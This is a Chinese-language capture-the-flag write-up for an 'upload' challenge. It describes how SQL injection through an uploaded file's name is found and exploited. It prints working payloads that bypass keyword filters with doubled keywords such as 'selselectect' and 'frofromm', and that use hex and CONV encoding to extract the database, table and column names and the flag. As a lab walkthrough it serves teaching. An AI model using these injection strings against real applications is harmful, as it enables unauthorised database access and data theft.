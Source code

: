 # upload
## 题目描述
如题目环境有问题，稍等片刻后刷新即可。
## 思路
http://220.249.52.133:59493  
点开题目链接，是个注册页面，一如既往的随便注册，然后登录，发现有回显，是把用户名回显了，并且有上传文件的地方：  
![avatar](./picture/upload_1.png)  
一开始以为是要在这个地方注入，因为和前端时间做的 unfinish 很相似，结果试了下，并不行，他直接把我用户名，毫无处理的回显出来了：  
![avatar](./picture/upload_2.png)  
题目是 upload，那应该是在上传文件上下功夫，尝试了一句话木马，并不知道访问路径，并且也没办法通过 bp 绕过后缀检查。然后想到文件名注入，这个在《代码审计》的第64页：  
>因为一般程序员都不会注意到对文件名进行过滤，但是又需要把文件名保存到数据库中，所以就会存在SQL注入漏洞。  
如此，就是构造文件名了，首先直接尝试最简单的 select database()：  
0'+(select database())+'.jpg  
回显了0：  
![avatar](./picture/upload_3.png)  
难不成是存在过滤？再试试：  
0'+(selselectect DAtabase())+'.jpg  
还是回显0，以为是思路错了，就去看了 wp，发现这个思路没错，但是文件名要复杂些，因为该网站对文件名还是做了一些过滤的……  
```sql
0'+(selselectect CONV(substr(hex(dAtaBase()),1,12),16,10))+'  
```
***
这里稍作解释，selselectect 是为了绕过关键字过滤，后面的 from 是同样的道理。对数据库名进行 hex 编码是为了绕过字母截断，本题遇到字母就会进行截断，这与外面的 CONV() 函数的使用是一个道理，因为十六进制的表示中存在 a b c d e f 六个字母，会被截断。substr() 是为了绕过科学计数法的表示，当 substr(hex(dAtaBase()),1,13) 时，效果如下：  
![avatar](./picture/upload_4.png)  
这样，我们无法获得准确的数字。
***
![avatar](./picture/upload_5.png)  
先把得到的数字转十六进制，然后进行 hex 解码，发现是有意义的字母：web_up，继续找出数据库名，然后再找表名和列名即可：  
```sql
//表名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(table_name) frofromm information_schema.tables where table_schema='web_upload')),1,12),16,10))+'
//列名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(column_name) frofromm information_schema.columns where table_name='hello_flag_is_here')),1,12),16,10))+'
```
最后，拼接解码后的列名得到 flag：  
!!_@m_Th.e_F!lag  


## 补充知识
1. CONV(N, from_base, to_base)  
CONV() 函数的目的是把 N 从 from_base 进制转换为 to_base 进制。本题之所以用到，是因为本题会过滤掉数字之外的字符，并在此处截断，以至无法获得正确的答案。   
2. 本题得到的十进制数字必须先解码，然后再拼接，如果先拼接，再转十六进制、解码的话，会解码失败。
